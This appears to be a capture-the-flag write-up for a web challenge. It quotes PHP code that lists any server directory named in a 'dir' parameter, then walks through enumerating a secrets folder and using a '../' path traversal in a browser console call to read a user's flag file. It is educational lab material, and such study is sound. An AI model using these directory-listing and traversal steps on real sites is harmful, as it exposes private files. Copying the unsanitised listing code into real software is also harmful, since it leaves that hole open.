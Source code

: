 # Mission 3 ~ page walking


## Goal and instructions

Can you [render](https://web3.chall.necst.it/) the flag of user `Marcie`? 

Hint: can you retrieve the source code?


## Web app structure

The website is a rendering platform that allows chess pieces to be viewed in detail and realistically from all angles.


## Code overview

The source code for the page was not provided directly, but it can be viewed using the browser's development tools. Once you inspect the page, you can see that there is a `list_model_options` function, which shows the files in a directory.
```php
function list_model_options($directory)
{
    // Open the directory and read its contents
    $dir_handle = opendir($directory);
    while (false !== ($file = readdir($dir_handle))) {
        // Skip current and parent directories
        if ($file == “.” || $file == “..”) {
            continue;
        }
        // Print the file name
        $file_no_ext = str_replace(“.obj”, “”, $file);
        echo “<option value=‘$file_no_ext’>” . $file_no_ext . “</option>”;
    
    }
    // Close the directory handle
    closedir($dir_handle);
}

$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```

If you look closely at the code shown above, you will see that you can also view all the directories on the site:
```php
$dir = $_GET['dir'];
if(isset($dir) && !is_null($dir)){
    list_model_options($dir);
}
```
This code checks if the `dir` parameter is set and is not null, and then calls the `list_model_options` function to list the contents of the specified directory.


## Solution

To complete the exploit, you need to follow the following steps:

1. Figure out what site directories are
   ```https
   https://web4.chall.necst.it/listModelOptions.php?dir=./
   ```
   These are the directory of the site:
   - listModelOptions.php
   - s3cr3ts
   - index.php
   - js
   - loadModel.php
     
3. Print the names of all users in the drop-down menu
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts
   ```
   ```https
   https://web4.chall.necst.it/index.php?dir=./s3cr3ts/Marcie
   ```
5. Copy the .txt file that appears along with all the previously printed names.
   
7. Open the site again and do loadFile of the previously found .txt file
   - Add a breakpoint in loadFile function
   - In the console call the function
     ```javascript
     loadFile("../s3cr3ts/Marcie/7ade7249188a95075e8b5b0020a09d72.txt")
     ```

